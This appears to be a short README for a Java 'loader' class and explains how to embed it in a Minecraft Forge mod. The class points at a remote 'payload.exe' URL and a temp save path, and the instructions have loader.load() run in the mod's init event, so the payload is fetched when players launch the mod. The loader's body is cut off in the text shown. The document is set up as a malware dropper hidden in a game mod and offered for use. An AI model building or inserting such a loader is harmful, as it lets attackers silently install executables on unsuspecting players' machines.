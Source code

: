 # Usage

Edit the variables ```file_url``` and ```filePath``` to your target paths, make sure your mc has permissions to your download location
```
public class loader {
    public static String file_url = "http://example.com/payload.exe";
    public static String filePath = "/Users/Local/Temp/payload.exe";

    public static void load(){
```

# Adding to a forge mod
Add the function to the forge init Event
```
import me.decker.loader

@Mod.EventHandler
    public void init(FMLInitializationEvent event) throws IOException {
    
    loader.load();
    
    }
```
